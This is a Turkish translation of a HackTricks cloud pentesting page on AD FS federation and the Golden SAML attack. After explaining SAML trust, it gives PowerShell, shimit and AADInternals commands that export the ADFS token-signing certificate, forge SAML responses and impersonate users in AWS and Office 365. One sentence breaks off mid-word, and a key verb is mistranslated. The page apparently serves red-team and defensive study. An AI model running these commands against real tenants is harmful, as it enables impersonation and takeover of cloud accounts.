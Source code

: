 # Federasyon

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) koleksiyonumuzdaki özel [**NFT'leri**](https://opensea.io/collection/the-peass-family) keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı takip edin.
* **Hacking hilelerinizi paylaşarak** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR göndererek katkıda bulunun.

</details>

## Temel Bilgiler

[Dokümantasyondan:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-fed)**Federasyon**, **güven** sağlamış olan **alanların** bir koleksiyonudur. Güven seviyesi değişebilir, ancak genellikle **kimlik doğrulama**yı ve neredeyse her zaman **yetkilendirme**yi içerir. Tipik bir federasyon, bir dizi kaynağa **paylaşılan erişim** için **güven** sağlamış olan bir **dizi organizasyonu** içerebilir.

On-premises ortamınızı Azure AD ile **federasyonlaştırabilir** ve bu federasyonu kimlik doğrulama ve yetkilendirme için kullanabilirsiniz. Bu oturum açma yöntemi, tüm kullanıcı **kimlik doğrulamalarının on-premises ortamda** gerçekleştiğini sağlar. Bu yöntem, yöneticilerin daha sıkı erişim kontrol düzeyleri uygulamasına olanak tanır. AD FS ve PingFederate ile federasyon sağlanabilir.

<figure><img src="../../../../.gitbook/assets/image (83) (1).png" alt=""><figcaption></figcaption></figure>

Temel olarak, Federasyon'da tüm **kimlik doğrulama** on-premises ortamında gerçekleşir ve kullanıcılar güvendiği tüm ortamlarda SSO deneyimi yaşar. Bu nedenle, kullanıcılar **on-prem kimlik bilgilerini** kullanarak **bulut** uygulamalarına erişebilir.

**Güvenlik Bildirimi İşaretleme Dili (SAML)**, sağlayıcılar arasında tüm kimlik doğrulama ve yetkilendirme bilgilerinin **değiş tokuşu** için kullanılır.

Herhangi bir federasyon kurulumunda üç taraf bulunur:

* Kullanıcı veya İstemci
* Kimlik Sağlayıcı (IdP)
* Hizmet Sağlayıcı (SP)

(Resimler https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps adresinden alınmıştır)

<figure><img src="../../../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

1. İlk olarak, bir kullanıcı tarafından bir uygulama (AWS konsolu veya vSphere web istemcisi gibi Hizmet Sağlayıcı veya SP) erişilir. Bu adım, özel uygulamaya bağlı olarak, istemciyi doğrudan IdP'ye (Kimlik Sağlayıcı) yönlendirebilir.
2. Ardından, SP, kullanıcı kimlik doğrulaması için uygun IdP'yi (örneğin, AD FS, Okta) belirler. Ardından, bir SAML (Güvenlik Bildirimi İşaretleme Dili) AuthnRequest oluşturur ve istemciyi seçilen IdP'ye yönlendirir.
3. IdP, kullanıcıyı kimlik doğrulayarak devralır. Kimlik doğrulama sonrasında, bir SAMLResponse, IdP tarafından formüle edilir ve kullanıcı aracılığıyla SP'ye iletilir.
4. Son olarak, SP, SAMLResponse'u değerlendirir. IdP ile güven ilişkisini doğrulayan başarılı bir şekilde doğrulandığında, kullanıcı erişime izin verilir. Bu, oturum açma işleminin tamamlanması anlamına gelir ve kullanıcının hizmeti kullanmasına olanak tanır.

**SAML kimlik doğrulaması ve yaygın saldırılar hakkında daha fazla bilgi edinmek isterseniz:**

{% embed url="https://book.hacktricks.xyz/pentesting-web/saml-attacks" %}

## Pivoting

* AD FS, iddialara dayalı bir kimlik modelidir.
* "..iddialar, kullanıcılar hakkında yapılan (örneğin, ad, kimlik, grup gibi) beyanlardır ve çoğunlukla İnternet'teki herhangi bir yerde bulunan iddialara dayalı uygulamalara erişimi yetkilendirmek için kullanılır."
* Bir kullanıcının iddiaları, SAML belgelerinin içine yazılır ve ardından IdP tarafından gizlilik sağlamak için imzalanır.
* Bir kullanıcı, ImmutableID tarafından tanımlanır. Bu, küresel olarak benzersizdir ve Azure AD'de depolanır.
* ImmutableID, kullanıcı için Azure AD'de saklanan bir on-premises asms-DS-ConsistencyGuid olabilir ve/veya kullanıcının GUID'inden türetilebilir.
* Daha fazla bilgi için [https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims) adresine bakın

**Golden SAML saldırısı:**

* ADFS'de, SAML Yanıtı bir belge imzalama sertifikasıyla imzalanır.
* Sertifika tehlikeye atılırsa, Azure AD'ye senkronize edilen HERHANGİ bir kullanıcı olarak kimlik doğrulaması yapmak mümkün olur!
* PTA kötüye kullanımımız gibi, bir kullanıcı için şifre değişikliği veya MFA'nın herhangi bir etkisi olmayacaktır çünkü kimlik doğrulama yanıtını sahtecilik ediyoruz.
* Sertifika, DA ayrıcalıklarıyla AD FS sunucusundan çıkarılabilir ve ardından herhangi bir internete bağlı makineden kullanılabilir.
* Daha fazla bilgi için [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps) adresine bakın

### Golden SAML

Bir **Kimlik Sağlayıcı (IdP)**'nin kullanıcı oturum açmasını yetkilendirmek için bir **SAMLResponse** üretmesi işlemi önemlidir. IdP'nin belirli uygulamasına bağlı olarak, yanıt, IdP'nin özel anahtarını kullanarak **imzalanmış** veya **şifrelenmiş** olabilir. Bu işlem, Hizmet Sağlayıcı'nın (SP) SAMLResponse'un ot
```powershell
# From an "AD FS" session
# After having exported the key with mimikatz

# ADFS Public Certificate
[System.Convert]::ToBase64String($cer.rawdata)

# IdP Name
(Get-ADFSProperties).Identifier.AbsoluteUri

# Role Name
(Get-ADFSRelyingPartyTrust).IssuanceTransformRule
```
Tüm bilgilerle, [**shimit**](https://github.com/cyberark/shimit) kullanarak taklit etmek istediğiniz kullanıcı olarak geçerli bir SAMLResponse'u unutmak mümkündür:

{% code overflow="wrap" %}
```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

### On-prem -> buluta
```powershell
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```
Ayrıca, yalnızca bulut kullanıcılarının ImmutableID'sini oluşturmak ve onları taklit etmek mümkündür.
```powershell
# Create a realistic ImmutableID and set it for a cloud only user
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```
## Referanslar

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
* [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<details>

<summary><strong>A'dan Z'ye AWS hackleme öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya HackTricks'i **PDF olarak indirmek** isterseniz, [**ABONELİK PLANLARINA**](https://github.com/sponsors/carlospolop) göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da takip edin.**
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>
